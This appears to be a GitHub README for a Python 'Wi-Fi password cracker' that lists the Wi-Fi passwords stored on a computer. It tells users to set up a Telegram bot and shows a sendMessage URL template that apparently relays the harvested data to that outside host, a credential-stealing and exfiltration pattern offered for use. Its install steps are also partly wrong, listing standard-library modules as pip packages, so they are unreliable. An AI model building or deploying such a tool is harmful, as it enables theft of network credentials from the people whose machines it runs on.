 # py-crack-wifi-password
A tool to crack Wi-Fi passwords on the computer. Python based

Using this tool, you can crack the Wi-Fi password registered on the computer.

How to run:
Install the listed libraries first.

In Windows:
pip install requests
pip install platform
pip install subprocess

Before running the program, create a bot using the botfather robot and use the robot
userinfobot Get your chat ID and then leave the token as well as your chat ID in the specified places

*Note that instead of [chat id] and [bot token], you must put your robot chat ID and token, such as:

("https://api.telegram.org/botabcd:39482372347126312764/sendmessage?chat_id=317628712&text="+msg)*

Now open cmd and command
Type python pywifick.py and press Enter.
After the commands are fully executed, the list of WiFi registered on the computer will be displayed for you and you can access the password by typing the WiFi name.

In Linux:
pip3 install requests
pip3 install platform
pip3 install subprocess

Before running the program, create a bot using the botfather robot and use the robot
userinfobot Get your chat ID and then leave the token as well as your chat ID in the specified places

*Note that instead of [chat id] and [bot token], you must put your robot chat ID and token, such as:

("https://api.telegram.org/botabcd:39482372347126312764/sendmessage?chat_id=317628712&text="+msg)*

Now open terminal and command
Type python pywifick.py and press Enter.
After the commands are fully executed, the list of WiFi registered on the computer will be displayed for you and you can access the password by typing the WiFi name.
